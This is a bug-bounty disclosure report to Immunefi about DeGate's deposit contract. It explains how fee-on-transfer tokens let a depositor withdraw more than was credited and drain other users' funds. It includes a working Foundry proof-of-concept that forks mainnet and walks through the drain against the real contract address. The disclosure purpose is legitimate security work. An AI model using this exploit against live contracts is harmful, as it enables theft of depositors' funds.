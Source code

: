 # 26468 - \[SC - Insight] Fee-on-transfer tokens can be used to steal oth...

Submitted on Dec 3rd 2023 at 15:57:51 UTC by @xBentley for [Boost | DeGate](https://immunefi.com/bounty/boosteddegatebugbounty/)

Report ID: #26468

Report type: Smart Contract

Report severity: Insight

Target: https://etherscan.io/address/0x54D7aE423Edb07282645e740C046B9373970a168#code

Impacts:

* Direct theft of user funds from the Default Deposit Contract that is less than 1,000,000 USD.

## Description

## Bug Description

The protocol has implemented a function that is supposed to handle fee-on-transfer tokens called setCheckBalance on the DefaultDepositContract. However, this function can be easily bypassed since it requires contract admin to set correct params BEFORE a deposit transaction. This is not practical since it requires the admin to front-run every deposit, check that the token applies fees to transfers and then set the correct settings.

## Impact

When withdraing, users can steal other depositor tokens and drain the pool.

## Risk Breakdown

Difficulty to Exploit: Easy Weakness: CVSS2 Score:

## Recommendation

It is recommended that the contract instead should rely on ACTUAL balances before and after a deposit to determine if the token applies fees on transfers.

## References

## Proof of concept

I have provided this test as a POC:

```
// SPDX-License-Identifier: Unlicense
pragma solidity ^0.8.13;

import "forge-std/Test.sol";
import "forge-std/console.sol";

contract DeGateTestContract is Test {
    IExchangeV3 xv3 = IExchangeV3(0x9C07A72177c5A05410cA338823e790876E79D73B);
    function setUp() public {
        vm.createSelectFork(vm.envString("RPC_URL"), 18558127);
    }

    function testZero() public {
        vm.startPrank(0x3AD80b5C8FbD3599E24Bf23246171ddbcC4f366A);
        //Balance at genesis
        assertEq(0,IERC20(0xa7DE087329BFcda5639247F96140f9DAbe3DeED1).balanceOf(0x54D7aE423Edb07282645e740C046B9373970a168));
        IERC20(0xa7DE087329BFcda5639247F96140f9DAbe3DeED1).approve(0x54D7aE423Edb07282645e740C046B9373970a168, 12000);
        xv3.deposit(
            0x3AD80b5C8FbD3599E24Bf23246171ddbcC4f366A,
            0x3AD80b5C8FbD3599E24Bf23246171ddbcC4f366A,
            0xa7DE087329BFcda5639247F96140f9DAbe3DeED1,
            10000,
            ""
            );
        //Balance after deposit and fee of 100    
        assertEq(9900,IERC20(0xa7DE087329BFcda5639247F96140f9DAbe3DeED1).balanceOf(0x54D7aE423Edb07282645e740C046B9373970a168));    
        skip(1396000);
        IERC20(0xa7DE087329BFcda5639247F96140f9DAbe3DeED1).transfer(0x54D7aE423Edb07282645e740C046B9373970a168, 500);
        //Balance after donation of 500
        assertEq(10395,IERC20(0xa7DE087329BFcda5639247F96140f9DAbe3DeED1).balanceOf(0x54D7aE423Edb07282645e740C046B9373970a168));    
        xv3.withdrawFromDepositRequest(0x3AD80b5C8FbD3599E24Bf23246171ddbcC4f366A,0xa7DE087329BFcda5639247F96140f9DAbe3DeED1);
        //Balance at end
        assertEq(395,IERC20(0xa7DE087329BFcda5639247F96140f9DAbe3DeED1).balanceOf(0x54D7aE423Edb07282645e740C046B9373970a168));    
        
    }
}

interface IExchangeV3{
    function deposit(
        address from,
        address to,
        address tokenAddress,
        uint248  amount,
        bytes calldata extraData
        )
        external
        payable;
    function withdrawFromDepositRequest(
        address owner,
        address token
        )
        external
        ;    
}

/**
 * @dev Interface of the ERC20 standard as defined in the EIP.
 */
interface IERC20 {
    /**
     * @dev Emitted when `value` tokens are moved from one account (`from`) to
     * another (`to`).
     *
     * Note that `value` may be zero.
     */
    event Transfer(address indexed from, address indexed to, uint256 value);

    /**
     * @dev Emitted when the allowance of a `spender` for an `owner` is set by
     * a call to {approve}. `value` is the new allowance.
     */
    event Approval(address indexed owner, address indexed spender, uint256 value);

    /**
     * @dev Returns the amount of tokens in existence.
     */
    function totalSupply() external view returns (uint256);

    /**
     * @dev Returns the amount of tokens owned by `account`.
     */
    function balanceOf(address account) external view returns (uint256);

    /**
     * @dev Moves `amount` tokens from the caller's account to `to`.
     *
     * Returns a boolean value indicating whether the operation succeeded.
     *
     * Emits a {Transfer} event.
     */
    function transfer(address to, uint256 amount) external returns (bool);

    /**
     * @dev Returns the remaining number of tokens that `spender` will be
     * allowed to spend on behalf of `owner` through {transferFrom}. This is
     * zero by default.
     *
     * This value changes when {approve} or {transferFrom} are called.
     */
    function allowance(address owner, address spender) external view returns (uint256);

    /**
     * @dev Sets `amount` as the allowance of `spender` over the caller's tokens.
     *
     * Returns a boolean value indicating whether the operation succeeded.
     *
     * IMPORTANT: Beware that changing an allowance with this method brings the risk
     * that someone may use both the old and the new allowance by unfortunate
     * transaction ordering. One possible solution to mitigate this race
     * condition is to first reduce the spender's allowance to 0 and set the
     * desired value afterwards:
     * https://github.com/ethereum/EIPs/issues/20#issuecomment-263524729
     *
     * Emits an {Approval} event.
     */
    function approve(address spender, uint256 amount) external returns (bool);

    /**
     * @dev Moves `amount` tokens from `from` to `to` using the
     * allowance mechanism. `amount` is then deducted from the caller's
     * allowance.
     *
     * Returns a boolean value indicating whether the operation succeeded.
     *
     * Emits a {Transfer} event.
     */
    function transferFrom(address from, address to, uint256 amount) external returns (bool);
}
//RPC_URL=$ALCHEMY_API forge test --match-contract DeGateTestContract
```
